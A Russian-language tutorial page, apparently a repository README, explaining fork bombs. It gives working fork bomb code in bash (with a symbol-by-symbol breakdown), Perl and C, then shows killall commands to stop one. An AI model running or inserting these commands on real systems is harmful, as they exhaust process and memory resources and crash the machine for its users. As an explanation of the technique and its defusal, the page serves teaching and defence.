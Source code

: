 # Fork Bomb #

Концепция Fork Bomb — коварная маленькая программа, которая порождает себя n-раз. 
Действует Fork bomb по весьма простому пути: для начала программа загружает себя в память, где создает несколько копий себя самой (обычно две). Далее каждая из этих копий создает столько же копий, как и оригинал, и так далее пока память не будет полностью забита, что приводит к отказу системы, ресурсы системы быстро исчерпываются. 

Структура кода Fork bomb может состоять всего лишь из 5 строчек. 
При использовании некоторых языков для написания подобного рода вредоносного ПО исключается необходимость использовать двоеточия, круглые скобки, а порой и все буквенно-цифровые символы.

## Примеры создания  Fork Bomb в Unix/Linux ##
**ВНИМАНИЕ!!!** Эти примеры могут привести к сбою вашего компьютера в случае его выполнения.
### Примеры создания  Fork Bomb с использованием bash ###

Итак, код выглядит так:

	# :(){ :|:& };:

Где:
   *	:() — Определение функции.
   *	{  — Открытие функции.
   *	:|: — Далее, загружает копию функции «:» в память тем самым, будет вызывать само себя с использованием техники программирования ( так называемая рекурсия) и передает результат на другой вызов функции.
   *	‘:’ — Худшая часть — функция, вызываемая два раза, чтобы «бомбить» вашу систему.
   *	& — Помещает вызов функции в фоновом режиме, чтобы fork (дочерний процесс) не мог «умереть» вообще, тем самым это начнет есть системные ресурсы.
   *	} — Закрытие функции.
   *	; — Завершите определение функции. Т.е является разделителем команд, (такой как и &&).
   *	: — Запускает функцию которая порождает fork bomb().
	 
Это рабочий код, но не очень читабельный. Вот пример нормального, читаемого кода:
	 
	#!/usr/bin/env bash -x
	 bomb() {
	 bomb | bomb &
	 };
	 bomb
	 
Идем дальше.

### Примеры создания  Fork Bomb с использованием perl ###

Пример встроенной оболочки с использованием интерпретатора Perl:

	# perl -e "fork while fork" &

### Примеры создания  Fork Bomb с использованием C/C++ ###

Код будет выглядеть:
	#include <unistd.h>

	int main(void)
	{
	while(1)
	fork();
	}
	
## Примеры Defusing Fork Bomb в Unix/Linux ##

Defusing — так называемое разминирование fork bomb. Из-за их характера, такие бомбы трудно оставновить после их запуска. Чтобы остановить такую бомбу, нужно  завершить все рабочих копий, чего может быть трудно достичь. Одна из проблем заключается в том, что данная команда не может быть выполнена из-за того, что таблица процессов полностью забита. Вторая серьезная проблема заключается в том,  на момент поиска процессов для прекрашения потратилось время за которое могло создатся еще пару форков программы.

Для удаления такой бомбы, можно использовать одну из перечисленных команд:

    # killall -STOP processWithBombName
    # killall -KILL processWithBombName

